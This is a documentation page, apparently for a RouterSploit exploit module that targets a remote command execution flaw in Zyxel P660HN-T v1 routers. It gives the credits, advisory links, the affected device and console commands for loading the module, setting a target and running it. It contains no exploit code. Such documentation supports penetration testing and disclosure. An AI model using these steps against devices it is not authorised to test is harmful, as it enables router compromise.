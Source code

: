 # Zyxel P660HN-T v1 RCE

## Description
Module exploits Remote Command Execution vulnerability in Zyxel P660HN-T v1 devices.If the target is vulnerable it allows to execute commands on operating system level.

## Authors
* Pedro Ribeiro <pedrib[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://seclists.org/fulldisclosure/2017/Jan/40](http://seclists.org/fulldisclosure/2017/Jan/40)
* [https://raw.githubusercontent.com/pedrib/PoC/master/advisories/zyxel_trueonline.txt](https://raw.githubusercontent.com/pedrib/PoC/master/advisories/zyxel_trueonline.txt)
* [https://blogs.securiteam.com/index.php/archives/2910](https://blogs.securiteam.com/index.php/archives/2910)

## Vulnerable devices
* Zyxel P660HN-T v1

## Usage
```
rsf > use exploits/zyxel/p660hn-t_v1_rce
rsf (Zyxel P660HN-T v1 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (Zyxel P660HN-T v1 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Zyxel P660HN-T v1 RCE) > run
[*] Running module...
```
